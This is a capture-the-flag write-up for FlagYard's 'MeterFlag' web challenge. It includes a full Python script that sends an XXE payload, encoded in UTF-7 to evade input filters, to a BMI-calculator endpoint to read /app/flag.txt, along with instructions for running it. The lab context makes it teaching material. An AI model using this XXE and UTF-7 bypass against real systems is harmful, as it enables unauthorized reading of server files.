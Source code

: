 # Meters Flag Challenge (80 Points)

## Challenge Overview

This writeup provides an automated solution to the **"MeterFlag"** challenge, which is worth 80 points in the **web category** on the FlagYard platform. The challenge involves exploiting an **XML External Entity (XXE)** vulnerability to retrieve a sensitive file (`/app/flag.txt`) from the server using **UTF-7 encoding** to bypass security restrictions.

The Python script included here automates this process, enabling the exploitation of the XXE vulnerability by encoding the malicious payload in UTF-7 and retrieving the flag from the target server.

## Vulnerability

The target application is a **BMI calculator** that accepts user inputs in XML format. Upon reviewing the request, it becomes clear that the server might be vulnerable to an **XXE (XML External Entity)** injection, allowing us to attempt retrieving sensitive files from the server, such as the `flag.txt` file.

### Payload Strategy

To exploit this vulnerability, we will:
1. Inject a crafted XML payload that includes an external entity pointing to the file we want to access.
2. Encode the payload in **UTF-7** to bypass server-side filters.
3. Send the payload via a **POST** request to the application.
4. Capture and print the contents of the file (i.e., the flag) returned by the server.

## Exploit Automation

The following Python script automates this entire process, making it simple to exploit the vulnerability by just providing the base URL of the target application.

### Python Script

```python
import requests
import sys


def exploit_xxe(base_url):
    # Step 1: Prepare the original XXE payload
    original_payload = """<!DOCTYPE data [
      <!ENTITY xxe SYSTEM "/app/flag.txt">
    ]>
    <data>
      <weight>&xxe;</weight>
      <height>170</height>
    </data>"""

    print("[+] Original XXE Payload:")
    print(original_payload)

    # Step 2: Encode the payload in UTF-7
    utf7_payload = """<?xml version="1.0" encoding="UTF-7"?>
    +ADw-+ACE-DOCTYPE+ACA-data+ACA-+AFs-+ADw-+ACE-ENTITY+ACA-xxe+ACA-SYSTEM+ACA-+ACI-file:///app/flag.txt+ACI-+AD4-+ACA-+AF0-+AD4-+AA0-+AAo-
    +ADw-data+AD4-+ADw-weight+AD4-+ACY-xxe+ADs-+ADw-/weight+AD4-+ADw-height+AD4-170+ADw-/height+AD4-+ADw-/data+AD4-"""
    print("[+] UTF-7 encoded XXE Payload:")
    print(utf7_payload)
    # Step 3: Set headers for the request
    headers = {
        'Content-Type': 'application/xml',  # Since it's XML data
    }

    # Step 4: Send the request to the target URL
    target_url = f"{base_url}"

    print(f"[+] Sending XXE payload to {target_url}...")

    # Step 5: Send the UTF-7 encoded payload as a POST request
    response = requests.post(target_url, headers=headers, data=utf7_payload)

    # Step 6: Check the response for the flag
    if response.status_code == 200:
        print("[+] Exploit successful! Flag retrieved:")
        print(response.text)
    else:
        print(
            f"[-] Failed to retrieve the flag. Status Code: {response.status_code}")
        print(response.text)


if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Usage: python exploit_xxe.py <base_url>")
        sys.exit(1)

    base_url = sys.argv[1]
    exploit_xxe(base_url)
```

### Steps for Running the Script:

1. **Pre-requisites**: Ensure you have Python 3 and the `requests` library installed.
   - Install `requests` by running:
     ```bash
     pip install requests
     ```

2. **Save the Script**: Save the script to a file, e.g., `exploit_xxe.py`.

3. **Run the Script**: Execute the script with the target URL as a parameter.
   ```bash
   python exploit_xxe.py http://target-bmi-calculator.com
   ```

4. **Flag Retrieval**: If the server is vulnerable, the script will display the contents of the `flag.txt` file, i.e., the flag for the challenge.

## Key Concepts in the Script

### 1. **XXE Injection**
The script uses **XML External Entity (XXE)** injection to load an external file on the server (`/app/flag.txt`). The payload defines a `SYSTEM` entity that references the file location.

### 2. **UTF-7 Encoding**
The payload is encoded in **UTF-7** to evade potential filters or protections that may prevent standard XXE payloads from being processed. This encoding method allows us to sneak the malicious payload past basic XML validation.

### 3. **Automating Exploitation**
The script automates the process of sending the encoded XML payload to the target server using a **POST** request with the appropriate headers and payload, then retrieves and prints the server’s response.

## Conclusion

This script provides a fast and efficient way to exploit the **XXE vulnerability** in the **MeterFlag** challenge on FlagYard, worth 80 points. By automating the injection process and using **UTF-7** encoding to bypass security, the flag can be retrieved with minimal effort.
